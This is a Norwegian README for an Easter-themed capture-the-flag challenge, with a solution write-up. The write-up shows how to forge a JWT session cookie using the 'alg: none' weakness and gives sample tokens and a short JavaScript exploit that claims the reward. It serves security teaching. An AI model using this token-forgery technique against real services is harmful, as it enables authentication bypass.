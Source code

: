 <p align="center">
  <a href="https://ctf-rubberduck-easter.vercel.app">
    <img src="./screenshot.png" height="300px">
  </a>
</p>

&nbsp;

# Rubberduck påske CTF

En CTF-oppgave bygget med [`lit.js`](https://lit.dev) og [`tailwind.css`](https://tailwindcss.com) ment for å kjøre på [Vercel](https://vercel.com/) ved hjelp av [serverless functions](https://vercel.com/docs/concepts/functions/serverless-functions)

<br>
<hr>
<br>

## Oppgavetekst
> Påskeharen er godt i gang med årets levering av påskeegg, men har hvert år en del defekte egg som ikke vil åpnes. Disse kan selvfølgelige ikke påskeharen utlevere, men det finnes en instruks for hvordan eggene kan åpnes<br>
<br>
Hvert egg har to tilhørende tilfeldig adjektiver som beskriver egget og en "lykke-kode". Påskeharen sier at hvert egg som er låst ikke er korrekt justert for å oppnå sin "lykke-kode". Du kan justere egget ved å finne en hash av typen <code>SHA256(ADJEKTIV_1 + ADJEKTIV_2 + justering)</code> som begynner på eggets "lykke-kode".<br>
<br>
For eksempel så vil et egg med adjektivene <code>brilliant</code> og <code>stappfullt</code> trenge en justing på <code>123</code> for å oppnå sin "lykke-kode" med verdi <code>37964</code>. Fordi <code>SHA256(brilliantstappfullt123) == 37964....</code><br>
<br>
Men vi begynner å lure på om ikke påskeharen har lurt oss i år. Hen vil at vi skal åpne 100 000 000 egg på denne måten før vi får belønningen våres! Klarer du å lure en luring?<br>

<br>

## Installasjon og lokal kjøring
### Prequisits
* [nodejs](https://nodejs.org/en)
* [npm](https://nodejs.org/en)
* [vercel-cli](https://vercel.com/docs/cli)

Etter installasjon av node, `npm install` og `npm i -g vercel` kan prosjektet startes med kommandoen `vercel dev --port 3001`.

For utvikling med Vite hot-relead anbefales det å også kjøre `npm run dev` som vil starte en hot-reaload devserver av frontend på port `3000` (satt opp til å proxye `/api` kall til `http://localhost:3001` (Vercel))

<br>

## Løsning
<details>
  <summary>Klikk for å vise løsningforslag</summary>
  <br>
  Oppgaven spesifiserer at brukeren må klare å "knekke" 100 000 000 påskeegg før man får "belønning". Ettersom knekking av påskeeggene baserer seg på å "gjette" seg frem til en `sha-256` hash som begynner på samme fire bokstaver som "lykke-koden" vil dette i praksis være tidsumulig med dagens datakraft.

  <br><br>

  Dersom vi reverse engineerer kommunikasjonen mellom frontend og backend ser vi at kommunikasjonen er basert på at frontend sender inn korrekt `padding` til `/api/next_egg` endepunktet.

  Dersom `padding` er korrekt så vil backend sende tilbake et nytt egg og slik har vi det gående.

  Dersom vi ser på trafikken nærmere ser vi at backend alltid oppdaterer en cookie `session` for hver korrekt `padding` frontend sender. Denne `session` cookien ser ut til å være en JWT.

  Et eksempel på en slik session er:
  ```
  eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJub25jZV8xIjoibHlzIiwibm9uY2VfMiI6ImjDuHl0ZWtub2xvZ2lzayIsImNoYWxsZW5nZSI6IjQwYTgiLCJzb2x2ZXMiOjE3LCJqdGkiOiJhZjRkMzM5OC1jNGExLTQwNjgtYTk3OS0yYzA2ZWM2NTg5ZDUiLCJpYXQiOjE2ODAyOTYwMjAsImV4cCI6MTY4MDI5OTYyMH0.Y_PRAzod6VyFG021w
  ```

  En JWT er delt opp i tre base64-encoded deler: `header`, `payload` og `signature`. Dersom vi decoder vår JWT får vi følgende strukturer tilbake:
  ```json
  [
    {
      "typ": "JWT",
      "alg": "HS256"
    },
    {
      "nonce_1": "lys",
      "nonce_2": "høyteknologisk",
      "challenge": "40a8",
      "solves": 17,
      "jti": "af4d3398-c4a1-4068-a979-2c06ec6589d5",
      "iat": 1680296020,
      "exp": 1680299620
    },
    "Y_PRAzod6VyFG021w"
  ]
  ```

  Det finnes flere svakheter med hvordan JWT verifisering kan være implementert på en server. En av hovedsvakhetene (men også en styrke) er at det i det hele tatt kan lese `header` og `payload` feltene uten å verifisere den opp mot `signature` delen.

  En annen svakhet i noen JWT implementasjoner er at algoritmen som brukes for å signere `header` + `payload` ligger klart definert i `header` feltet og kan i en evt. feil-implementasjon bli brukt under validering av JWT-en. <b>Dette er svakheten her</b>

  Dersom vi endrer algoritmen i JWT headeren våres til å spesifisere at `"alg": "none"` skal benyttes (som er en helt gyldig iht. JWT-spesifikasjonen) så kan vi også fritt endre `payload` og fjerne hele `signature` delen:

  ```json
  [
    {
      "typ": "JWT",
      "alg": "none"
    },
    {
      "nonce_1": "lys",
      "nonce_2": "høyteknologisk",
      "challenge": "40a8",
      "solves": 100000000,
      "jti": "af4d3398-c4a1-4068-a979-2c06ec6589d5",
      "iat": 1680296020,
      "exp": 1680299620
    }
  ]
  ```

  Dersom vi nå koder denne strukturen tilbake til en gyldig JWT:

  ```
  eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJub25jZV8xIjoibHlzIiwibm9uY2VfMiI6ImjDuHl0ZWtub2xvZ2lzayIsImNoYWxsZW5nZSI6IjQwYTgiLCJzb2x2ZXMiOjEwMDAwMDAwMCwianRpIjoiYWY0ZDMzOTgtYzRhMS00MDY4LWE5NzktMmMwNmVjNjU4OWQ1IiwiaWF0IjoxNjgwMjk2MDIwLCJleHAiOjE2ODAyOTk2MjB9
  ```

  Så kan den brukes for å "lure" serveren til å tro at vi nå har åpnet 100 000 000 påskeegg og gi oss belønningen våres

  <br>
  <hr>
  <br>
  
  ### Fullstending løsnings-kode:
  ```javascript
  const header = { typ: "JWT", alg: "none" };
  const payload = { solves: 100000000 };

  const headerAsBase64Url = btoa(JSON.stringify(header)).replaceAll('=', '');
  const payloadAsBase64Url = btoa(JSON.stringify(payload)).replaceAll('=', '');

  const session = `${headerAsBase64Url}.${payloadAsBase64Url}`;

  const { reward } = await fetch('/api/new_egg', { headers: { Cookie: `session=${session}` } })
    .then(response => response.json());

  console.log(`The reward is: ${reward}`);
  ```
  
</details>
